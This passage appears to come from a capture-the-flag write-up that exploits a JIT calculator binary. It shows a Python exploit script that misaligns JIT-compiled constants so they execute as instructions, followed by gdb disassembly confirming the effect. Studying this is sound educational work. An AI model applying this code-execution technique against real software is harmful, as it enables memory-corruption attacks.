 And the updated exploit code:

```python
p = proccess('./jit-calc')

read_welcome_msg()

start_writing_code()
for i in range(9):
    write_addition(1)
for i in range(96):
    write_constant_value(1, 0x4142434445464748)

swap_index(1)
start_writing_code()
write_constant_value(1, 0x5152535455565758)
end_writing_code()

swap_index(0)
run_code()
```

And again let's break at callCode and examine the memory under 0x00007f93d56a0000:

```gdb
$python3 exp.py local debug
gef➤  b callCode
gef➤  c
Continuing.
Breakpoint 1, 0x0000000000400a94 in callCode ()
gef➤  x/200i 0x00007f93d56a0000
   0x7f93d56a0000:	add    rbx,rax
   [...]
   0x7f93d56a0018:	add    rbx,rax
   0x7f93d56a001b:	movabs rax,0x4142434445464748
   [...]
   0x7f78f9d503d1:	movabs rax,0x4142434445464748
   0x7f78f9d503db:	add    BYTE PTR [rax],al
   0x7f78f9d503dd:	add    BYTE PTR [rax],al
   0x7f78f9d503df:	add    BYTE PTR [rax],al
   0x7f78f9d503e1:	add    BYTE PTR [rax],al
   0x7f78f9d503e3:	add    BYTE PTR [rax],al
   0x7f78f9d503e5:	add    BYTE PTR [rax],al
   0x7f78f9d503e7:	add    BYTE PTR [rax-0x48],cl
   0x7f78f9d503ea:	pop    rax
   0x7f78f9d503eb:	push   rdi
   0x7f78f9d503ec:	push   rsi
   0x7f78f9d503ed:	push   rbp
   0x7f78f9d503ee:	push   rsp
   0x7f78f9d503ef:	push   rbx
   0x7f78f9d503f0:	push   rdx
   0x7f78f9d503f1:	push   rcx
   0x7f78f9d503f2:	ret    
   0x7f78f9d503f3:	add    BYTE PTR [rax],al
   [...]
gef➤  x/2gx 0x7f78f9d503e7
0x7f78f9d503e7:	0x5455565758b84800	0x00000000c3515253
```
